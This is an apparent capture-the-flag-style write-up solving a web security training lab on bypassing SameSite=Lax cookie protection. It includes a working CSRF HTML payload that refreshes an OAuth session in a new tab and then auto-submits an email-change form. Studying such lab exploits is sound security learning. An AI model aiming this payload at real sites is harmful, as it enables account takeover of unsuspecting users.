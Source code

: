 ### Lab: SameSite Lax bypass via cookie refresh

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

The lab supports OAuth-based login. You can log in via your social media account with the following credentials: wiener:peter

_____

Analysis and Exploit:

1. Login makes use of OAuth authentication
    - GET **/social-login**
        - Redirects to **/oauth-callback?code={code}**
        - A new session cookie is issued

2. Session token is renewed everytime a logged-in user send GET /social-login

3. Since Google Chrome default behaviour applying Same-Site=Lax to session cookies does not block POST requests for 120 seconds, new cookie renewal was issued from new tab

Payload 
```html
<html>
    <body>
        <form action="URL/my-account/change-email" method="POST">
            <input required type="email" name="email" value="youjustgot@hacked">
            <button type="submit">Submit</button>
        </form>

        <script>
            window.onclick= () => {
            window.open('https://0a3c000904d7333a802d94de00580052.web-security-academy.net/social-login');
            setTimeout(function(){
                document.forms[0].submit()
            }, 5000)
            }
        </script>
    </body>
</html>
```

POST Request is allowed because of the 120-seconds of POSTs request freedom from Google Chrome after Same-Site=Lax flag has been applied to new cookies.  

OAuth does not care whether a user is already logged-in or has to repeat the login process, it simply renews the session cookie if the request is valid because OAuth is all about authotization and not authentication.  

In order to not close the "exploit page" we need to trigger the OAuth process from a new tab but this requires user interaction (like a clik in this case) because browsers block this kind of pop-ups if the action is not performed manually (aka click() is not a valid action).  

To avoid a race-condition error, a timeout of 5 seconds is used to give the OAuth process enough time to complete the session cookie renewal.  
After 5 seconds, and after the initial user click, the form is auto-submitted and the email is changed.  
The session cookie is sent along the request because it is a top level navigation.  

